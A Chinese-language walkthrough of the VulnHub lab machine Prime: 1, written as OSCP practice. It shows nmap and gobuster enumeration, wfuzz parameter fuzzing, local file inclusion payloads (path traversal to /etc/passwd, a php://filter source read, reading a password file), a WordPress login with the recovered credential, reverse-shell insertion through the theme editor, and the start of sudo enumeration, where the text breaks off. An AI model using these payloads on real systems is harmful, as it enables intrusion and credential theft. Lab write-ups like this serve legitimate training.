# 前言

### 靶场介绍

Prime: 1 是 Suraj Pandey 在 2019 年 9 月 1 日发布的 Prime 系列第一台机器，面向正在备考 OSCP 或 OSCP-Exam 的人练手。整台机器的玩法基本就是一关一关解谜：每拿到一个线索都会被提示"去找下一个东西"，逼着你不停地手动 fuzz 和枚举，而不是直接给一条打穿的路。前期信息收集和站点突破阶段难度中等偏易，一旦拿到落脚点之后提权阶段相对简单。

### 靶场信息

| 字段     | 值                                                           |
| ------ | ----------------------------------------------------------- |
| 靶机名    | Prime: 1                                                    |
| 靶机 IP  | 192.168.200.128                                             |
| 靶机 URL | https://www.vulnhub.com/entry/prime-1,358/                  |
| 下载（镜像） | https://download.vulnhub.com/prime/Prime_Series_Level-1.rar |
| 难度等级   | 入门到中级                                                       |
| 目标     | 获取 user.txt，提权到 root，获取root.txt                             |

### 涉及工具

- nmap（端口扫描 / 服务识别 / 漏洞脚本 / UDP 扫描）
- dirsearch / gobuster（目录枚举）
- curl
- wfuzz（参数 fuzz）
- WordPress 后台主题编辑器（写入反弹 shell）
- searchsploit
- gcc（编译内核提权 EXP）

### 思维导图



---

# 1.信息收集

## 1.1 Nmap 信息扫描

### 端口扫描

```bash
nmap -sT --min-rate 10000 -p- 192.168.200.128 -oA ports
```



### 详细信息

```bash
nmap -sT -sV -sC -O -p22,80 192.168.200.128 -oA details
```



### 漏洞扫描

```text
┌──(kali㉿kali)-[~/vulnhub/prime1/nmap]
└─$ nmap --script=vuln -p22,80 192.168.200.128 -oA vuln
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-17 07:33 -0400
Nmap scan report for 192.168.200.128
Host is up (0.00023s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-enum: 
|   /wordpress/: Blog
|_  /wordpress/wp-login.php: Wordpress login page.
MAC Address: 00:0C:29:F4:54:DD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 321.65 seconds
```

漏洞脚本没扫出能直接用的点，主要价值是确认了 `/wordpress/` 这个路径的存在。

### UDP 扫描

```text
┌──(kali㉿kali)-[~/vulnhub/prime1/nmap]
└─$ nmap -sU --top-ports 20 192.168.200.128 -oA udp     
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-17 07:32 -0400
Nmap scan report for 192.168.200.128
Host is up (0.00019s latency).

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   open|filtered snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   open|filtered syslog
520/udp   closed        route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  closed        nat-t-ike
49152/udp open|filtered unknown
MAC Address: 00:0C:29:F4:54:DD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
```

UDP 前 20 个常见端口基本都是 open|filtered，没有明确开放的服务，没有进一步追的价值。

---
## 1.2 Web 探测

#### 目录枚举

目录枚举先用 dirsearch 快速扫了一遍，没有发现特别的东西，于是换大字典再扫一次。

大字典枚举：

```bash
$ gobuster dir -u http://192.168.200.128 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x tar,rar,txt,php,html,bak,zip
```



```text
index.php            (Status: 200) [Size: 136]
image.php            (Status: 200) [Size: 147]
wordpress            (Status: 301) [Size: 322] [--> http://192.168.200.128/wordpress/]
dev                  (Status: 200) [Size: 131]
javascript           (Status: 301) [Size: 323] [--> http://192.168.200.128/javascript/]
secret.txt           (Status: 200) [Size: 412]
server-status        (Status: 403) [Size: 303]
```

重点是这个文件给了些提示，这个叫 secret 的文件引起了我的注意，但有可能是兔子洞。

```bash
$ curl http://192.168.200.128/secret.txt  
Looks like you have got some secrets.

Ok I just want to do some help to you. 

Do some more fuzz on every page of php which was finded by you. And if
you get any right parameter then follow the below steps. If you still stuck 
Learn from here a basic tool with good usage for OSCP.

https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web
 

//see the location.txt and you will get your next move//
```

顺着提示访问这个仓库：https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web



这个页面给的是一份用 wfuzz 做 Web 参数发现（parameter discovery）的用法说明：核心思路是固定一个页面，把请求里的参数名替换成字典里的 `FUZZ` 关键字逐个轮询，再根据响应的状态码、行数、字数、字符数把"无效参数"批量过滤掉，剩下的就是页面真正接受的参数。结合 secret.txt 里"对每个 php 页面再 fuzz 一下"的提示，可以确定作者是想让我用这套方法去爆破 index.php / image.php 的有效参数。

---
#### FUZZ-GET 参数名爆破

照着仓库里的用法开始对 index.php 做参数 fuzz。先按说明里给的原始命令试了一下，结果整页都返回 200，正如笔记里说的——没有任何过滤条件时全部命中，没法区分有效无效：

```bash
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hc 404 http://website.com/secret.php?FUZZ=something
```

换成打实际靶机的命令并加上 `--hw 500` 想过滤掉一批，但 500 这个阈值没卡准，结果还是没干净过滤，不过此时返回内容已经缩小，可以先用目测法看出规律：

```bash
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hc 404 --hw 500 http://192.168.200.128/index.php?FUZZ=something
```



由于无效参数回显的 word 数都是 12，把 `--hw` 设置为 12，把这批多余内容全部隐藏掉，最终就过滤出了真正有用的那条参数：

```bash
$ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hc 404 --hw 12 http://192.168.200.128/index.php?FUZZ=something
```



结果指向 `file` 这个参数（关于 Lines / Word / Chars 三个值具体怎么算、为什么挑 12 做阈值，我当时卡了一下，详细排查记录放在文末第 5 节补充里）。拿到参数名后，先用一个随便的值测一下 `index.php?file=` 的回显内容：



> Do something better you are digging wrong file
> 做点更好的，你找错文件了。

回显说"做点更好的，你找错文件了"，说明参数对了但读的文件不对。我想起前面 secret.txt 末尾那句一直没用上的提示————`//see the location.txt and you will get your next move//`，于是把要读的文件换成 location.txt：



回显里给出了两条信息：一是确认 `file` 就是正确参数，二是提示我去别的 php 页面上用 `secrettier360` 这个参数继续挖。之前目录扫描时除了 index.php 还扫到过一个 image.php，可以去另外一个页面上尝试一下。



页面回显 "finaly you got the right parameter"，说明 `secrettier360` 就是 image.php 接受的参数。既然作者一路提示都在引导往文件方向走，我猜这个参数背后多半是个文件包含点，于是直接拿它做路径穿越去读 /etc/passwd 验证：

```bash
┌──(kali㉿kali)-[~/vulnhub/prime1/web]
└─$ curl http://192.168.200.128/image.php?secrettier360=../../../../../../../etc/passwd
<html>
<title>HacknPentest</title>
<body>
 </p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
</html>
```

这里有一个注意点，在 /etc/passwd 的 saket 这一行中，注释字段不是常规的用户描述，而是一句明显的提示：

```text
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
```

> find password.txt file in my directory

同时也确认了系统里值得关注的几个用户：root、victor（有 /bin/bash）、saket。先把这个提示记在心里。

在直接去读 password.txt 之前，我想先搞清楚这个参数到底是怎么处理包含的、有没有进一步利用空间，于是用 php://filter 伪协议把 image.php 自身的源码以 base64 编码读出来看看：

```text
http://192.168.200.128/image.php?secrettier360=php://filter/convert.base64-encode/resource=image.php
```

拿到 base64 后解码：

```text
PGh0bWw+Cjx0aXRsZT5IYWNrblBlbnRlc3Q8L3RpdGxlPgo8Ym9keT4KIDxpbWcgc3JjPSdoYWNrbnBlbnRlc3QucG5nJyBhbHQ9J2hucCBzZWN1cml0eScgd2lkdGg9IjEzMDAiIGhlaWdodD0iNTk1IiAvPjwvcD48L3A+PC9wPgo8L2JvZHk+Cjw/cGhwCiRzZWNyZXQgPSAkX0dFVFsnc2VjcmV0dGllcjM2MCddOwppZihpc3NldCgkc2VjcmV0KSkKCnsKIGVjaG8iZmluYWx5IHlvdSBnb3QgdGhlIHJpZ2h0IHBhcmFtZXRlciI7CiBlY2hvICI8YnI+PGJyPjxicj48YnI+IjsKIGluY2x1ZGUoIiRzZWNyZXQiKTsKCn0KCj8+CjwvaHRtbD4K
```

```php
<?php
$secret = $_GET['secrettier360'];
if(isset($secret))

{
 echo"finaly you got the right parameter";
 echo "<br><br><br><br>";
 include("$secret");

}

?>
</html>
```

看到 `include("$secret")` 直接拼接用户输入，我开始想这个点除了本地包含，能不能进一步做远程文件包含（RFI）。但 RFI 需要服务端开启 `allow_url_include` 之类的配置，把握不大，我没在这条路上继续耗，而是回头去看之前收集到的信息——想起来扫描时发现过一个 WordPress 站点，决定先从它入手。

对 WordPress 简单测试后，对应版本没有可以直接拿 webshell 的已知 CMS 漏洞，弱口令也试不通。

转念想到 WordPress 一般会把数据库密码写在 wp-config.php 里，正好可以用手上的 LFI 把它读出来：



```php
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'yourpasswordhere' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

但这里的密码还是 `yourpasswordhere` 这种占位默认值，没有实际价值，而且之前扫描时 3306 也没开，数据库这条路走不通。

回过头重新看线索，最有指向性的还是 /etc/passwd 里 saket 那行注释——"find password.txt file in my directory"，等于直接告诉我去 saket 家目录下读 password.txt。继续用 LFI 读它：

```bash
┌──(kali㉿kali)-[~/vulnhub/prime1/web]
└─$ curl http://192.168.200.128/image.php?secrettier360=../../../../../home/saket/password.txt 
<html>
<title>HacknPentest</title>
<body>
 </p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>follow_the_ippsec
</html>
```

#### 获取凭证：

follow_the_ippsec

---

# 2.权限立足

### 2.1 凭证利用

拿到 `follow_the_ippsec` 这个疑似密码后，手里能匹配的用户名有 saket 和 victor 两个（都来自 /etc/passwd），可以尝试的入口也有两个：SSH 和 WordPress 后台。

先试了 SSH，saket、victor 两个用户配 `follow_the_ippsec` 都登不上去。于是转向 WordPress 后台，用 victor 的凭证试：

```text
saket:follow_the_ippsec
victor:follow_the_ippsec        # wordpress
```

`victor:follow_the_ippsec` 成功登入 WordPress 后台：




### 2.2 上传反弹 Shell

进了后台之后，目标是把它变成一个 webshell。WordPress 后台拿 shell 的经典思路是利用 Appearance → Theme Editor 直接编辑主题里的 php 文件，把反弹/命令执行代码写进去。这里找到一个可写的 php 文件 `secret.php`，往里面插入了反弹 shell：



写进去之后的问题是不知道这个文件在服务器上对应的访问路径，没法触发它。在网上查了一下 WordPress 主题文件的存放规律：


主题文件路径形如 `/wp-content/themes/[当前启用的主题名]/xxx.php`。当前主题是 twentynineteen，于是拼出完整 URL 去访问触发反弹 shell：

`http://192.168.200.128/wordpress/wp-content/themes/twentynineteen/secret.php`



---

# 3.提权

拿到 www-data 的 shell 后，照常先做提权方向的信息收集，依次看了 sudo 权限、计划任务和内核版本。

## 3.1 信息收集

### sudo 权限

先看当前用户有没有可滥用的 sudo 配置：

```bash
www-data@ubuntu:/var/www/html/wordpress$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /home/saket/enc        # <-- 重点关注
```

www-data 可以免密以 root 身份运行 `/home/saket/enc` 这个程序，先记下这条线索。顺手去 saket 家目录看看这个 `enc` 和旁边有什么：

```bash
